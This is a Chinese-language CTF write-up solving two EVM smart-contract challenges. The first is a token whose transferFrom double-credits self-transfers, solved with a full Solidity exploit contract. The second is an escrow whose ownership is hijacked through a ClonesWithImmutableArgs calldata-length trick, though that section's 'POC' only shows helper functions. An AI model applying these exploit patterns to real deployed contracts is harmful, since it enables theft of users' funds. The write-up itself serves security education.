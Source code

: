 ### GreyHats Dollar

[題目](https://github.com/MiloTruck/evm-ctf-challenges/blob/main/src/greyhats-dollar): 
擔心通貨膨脹嗎？介紹 GreyHats Dollar (GHD)，全球首個內建通縮機制的貨幣！由 GREY 代幣支持，GHD 將以每年 3% 的速度自動通縮。

過關條件:
-  挑戰者需拿到 50000 以上 GHD

知識點:
- transferFrom 邏輯漏洞, double credit. 

解題:
- 挑戰者可以 cliam 1000 grey 代幣. 可以在 GHD合約 mint GHD 代幣, 關鍵漏洞在GHD合約的transferFrom函數轉賬時,只檢查了發送者餘額減少和接收者餘額增加,沒有檢查實際轉賬金額.

```
    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public update returns (bool) {
        if (from != msg.sender) allowance[from][msg.sender] -= amount;

        uint256 _shares = _GHDToShares(amount, conversionRate, false);
        uint256 fromShares = shares[from] - _shares; //vulnerable
        uint256 toShares = shares[to] + _shares;  //vulnerable
```
[POC:](./greyhats/greyhats-dollar.sol) 
```
contract Exploit {
    Setup setup;

    constructor(Setup _setup) {
        setup = _setup;
    }
    function solve() external {
        // Step 1: Claim 1000 GREY tokens
        // The function begins by calling setup.claim() to claim 1000 GREY tokens.
        setup.claim();

        // Step 2: Approve GHD contract
        // It then grants approval for the GHD contract to spend the GREY tokens 
        // by calling approve on the GREY token contract, allowing the GHD contract 
        // to spend an unlimited amount (type(uint256).max).
        setup.grey().approve(address(setup.ghd()), type(uint256).max);

        // Step 3: Mint GHD tokens
        // After approval, the function mints GHD tokens by transferring the 1000 GREY tokens 
        // to the GHD contract using setup.ghd().mint(1000e18).
        setup.ghd().mint(1000e18);

        // Step 4: Looped transfers
        // The function performs a loop 50 times, transferring 1000 GHD tokens 
        // to the contract itself (address(this)) on each iteration.
        for (uint256 i = 0; i < 50; i++) {
            setup.ghd().transfer(address(this), 1000e18);
        }

        // Step 5: Transfer accumulated GHD to the caller
        // Once the loop completes, the function transfers all the accumulated GHD tokens 
        // from the contract to the caller (msg.sender) using 
        // setup.ghd().transfer(msg.sender, setup.ghd().balanceOf(address(this))).
        setup.ghd().transfer(msg.sender, setup.ghd().balanceOf(address(this)));
    }
}

```

### Escrow

[題目](https://github.com/MiloTruck/evm-ctf-challenges/blob/main/src/escrow): 
介紹基於 NFT 的代管系統——你可以存入資產並通過出售你的所有權 NFT 來交易代管！然而，我不小心放棄了自己代管的所有權。你能幫我找回資金嗎？

過關條件:
- escrow 合約上 grey 代幣餘額為0
- 挑戰者 grey 代幣餘額需 >= 10000

知識點:
-   ClonesWithImmutableArgs
-   Calldata 


解題:
- 當 ClonesWithImmutableArgs 代理被調用時，不可變參數和一個 2-byte 的長度字段會附加在委託調用（delegate call）的 calldata 中.
- tokenY 是 address(0)：address(0) 以 0x00 表示, tokenY 的最後一個 byte 為 0x00, 通過利用 ClonesWithImmutableArgs 的 calldata 優化, 我們可以省略 tokenY 的最後一個 byte, 並將未使用的 length field byte 作為 tokenY 的最後一個 byte, 你可以傳遞 19 bytes 的 0x00, 並且仍然能夠達到與傳遞完整 20 bytes 相同的效果, 計算出來的 paramsHash 會是一樣的, 這樣我們可以部署一樣的 escrowId 合約和覆蓋 owner.
[POC:](./greyhats/escrow.sol) 
```
function _getArgs() internal pure returns (address factory, address tokenX, address tokenY) {
    // This function retrieves three arguments: factory, tokenX, and tokenY.
    // factory is located at offset 0, tokenX at offset 20, and tokenY at offset 40.
    // tokenY is expected to be address(0), which allows us to optimize the calldata length.

    factory = _getArgAddress(0);
    tokenX = _getArgAddress(20);
    
    // Since tokenY is address(0) (0x00), we can utilize the first byte of the length field
    // to act as the last byte of tokenY. This reduces the calldata passed by 1 byte,
    // resulting in a different paramsHash.
    tokenY = _getArgAddress(40); // address(0) (0x00)
}

function _getArgAddress(uint256 argOffset)
    internal
    pure
    returns (address arg)
{
    // This function reads an address from calldata at the specified offset.
    uint256 offset = _getImmutableArgsOffset();
    
    // Use inline assembly to load 32 bytes from calldata, then shift right by 96 bits (12 bytes)
    // to get the correct 20-byte address.
    assembly {
        arg := shr(0x60, calldataload(add(offset, argOffset)))
    }
}

function _getImmutableArgsOffset() internal pure returns (uint256 offset) {
    // This function calculates the starting offset for the immutable arguments in calldata.
    // The last 2 bytes of calldata contain the length of the immutable arguments.
    
    // Subtract the last 2 bytes from the total calldata size to get the offset of the arguments.
    assembly {
        offset := sub(
            calldatasize(),
            shr(0xf0, calldataload(sub(calldatasize(), 2))) // Extract the last 2 bytes (length field)
        )
    }
}
```
